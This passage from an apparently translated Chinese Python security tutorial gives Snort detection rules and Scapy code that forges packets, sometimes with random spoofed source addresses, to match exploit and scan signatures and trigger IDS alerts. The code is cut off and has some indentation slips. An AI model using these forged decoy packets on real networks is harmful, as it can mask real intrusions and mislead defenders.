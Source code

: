 让我们看看稍微复杂的规则，Snort 下的`exploit.rules`签名文件。在这里，一系列的特殊字节将会为 ntalkd x86 Linux 溢出和 Linux mountd 溢出生成警告。

```py
alert udp $EXTERNAL_NET any -> $HOME_NET 518 (msg:"EXPLOIT ntalkd x86
Linux overflow"; content:"|01 03 00 00 00 00 00 01 00 02 02 E8|";
reference:bugtraq,210; classtype:attempted-admin; sid:313;
rev:4;)
alert udp $EXTERNAL_NET any -> $HOME_NET 635 (msg:"EXPLOIT x86 Linux
mountd overflow"; content:"^|B0 02 89 06 FE C8 89|F|04 B0 06 89|F";
reference:bugtraq,121; reference:cve,1999-0002; classtype
:attempted-admin; sid:315; rev:6;) 
```

为了生成包含原始字节的数据包，我们将利用`\x`后面跟随 16 进制字符来编码字节。在第一个警报，会生成一个数据包将会被 ntalkd Linux 溢出签名所检测到。第二个数据包，我们将接合 16 进制编码和标准的 ASCII 字符。注意`98|F|`编码为`\x89`标示包含了原始的字节加了一个 ASCII 字符。下面的数据包将在试图攻击时生成报警。

```py
def exploitTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=518) /Raw(load="\x01\x03\x00\x00\x00\x00\x00\x01\x00\x02\x02\xE8")
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src, dst=dst) / UDP(dport=635) /Raw(load="^\xB0\x02\x89\x06\xFE\xC8\x89F\x04\xB0\x06\x89F")
send(pkt, iface=iface, count=count) 
```

最后，它会很好的欺骗一些侦查和扫描。当我们检查 Snort 的扫描规则时发现两个我们可以制作数据包的规则。两个规则通过特定的端口和特定原始内容的 UDP 协议检测恶意行为。很容易制作这种数据包。

```py
alert udp $EXTERNAL_NET any -> $HOME_NET 7 (msg:"SCAN cybercop udp
bomb"; content:"cybercop"; reference:arachnids,363; classtype:bad-
unknown; sid:636; rev:1;)
alert udp $EXTERNAL_NET any -> $HOME_NET 10080:10081 (msg:"SCAN Amanda
client version request"; content:"Amanda"; nocase; classtype:attempted-
recon; sid:634; rev:2;) 
```

我们生成两个对应规则的扫描工具的数据包。当生成两个合适的 UDP 数据包之后我们发送到目标主机。

```py
def scanTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=7) /Raw(load='cybercop')
    send(pkt)
    pkt = IP(src=src, dst=dst) / UDP(dport=10080) /Raw(load='Amanda')
send(pkt, iface=iface, count=count) 
```

现在，我们有数据包可以生成拒绝服务攻击，渗透攻击和扫描侦查的警告。我们把代码组合在一起，添加一些选项解析。注意，用户必须输入目标地址否则程序会退出。如果用户没有输入源地址，我们会生成一个随机的源地址。如果用户不能指定发送制作的数据包多少次，我们将只发送一次。该脚本使用缺省的网卡 eth0，除非用户指定。虽然我们的目的文本很短，你可以继续添加脚本生成测试其他攻击类型的警告。

```py
# coding=UTF-8
import optparse
from scapy.all import *
from random import randint

def ddosTest(src, dst, iface, count):
    pkt=IP(src=src,dst=dst)/ICMP(type=8,id=678)/Raw(load='1234')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0)/Raw(load='AAAAAAAAAA')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/UDP(dport=31335)/Raw(load='PONG')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0,id=456)
    send(pkt, iface=iface, count=count)

def exploitTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=518) /Raw(load="\x01\x03\x00\x00\x00\x00\x00\x01\x00\x02\x02\xE8")
```